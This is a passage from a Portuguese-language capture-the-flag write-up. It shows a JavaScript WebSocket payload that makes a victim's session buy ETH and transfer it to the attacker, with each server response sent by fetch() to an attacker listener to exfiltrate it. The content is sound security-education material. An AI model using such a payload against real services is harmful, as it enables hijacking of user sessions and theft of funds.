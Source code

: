 Obtemos um JSON dizendo foram feitas três transferências de 0 Eth. Isso nos mostra que a vítima em questão não possui Eth na conta, somente dólares. Não seja por isso: podemos também fazer com que ele compre Eth antes de transferir! Basta adicionar compra de Eth no payload e a flag é nossa!

```js
/* Mantém a mesma coisa que antes, mas agora tem isso */

var buy = JSON.stringify({
	"type":"buy",
	"content": {
		"amount":"7000",
	}
});

socket.onopen = function (event) {
	// Agora com buy antes 
	socket.send(buy);
	socket.send(buy);
	socket.send(buy);
	socket.send(transfer);
	socket.send(transfer);
	socket.send(transfer);
}

socket.onmessage = function (event) {
	fetch("http://localhost:8000/?response=" + event.data);
}
```

![Transferência bem sucedida no Terminal](/assets/payload-parte-2.png)

Agora as requisições mostram que dinheiro foi transferido para nossa conta, e se olharmos para nosso saldo...
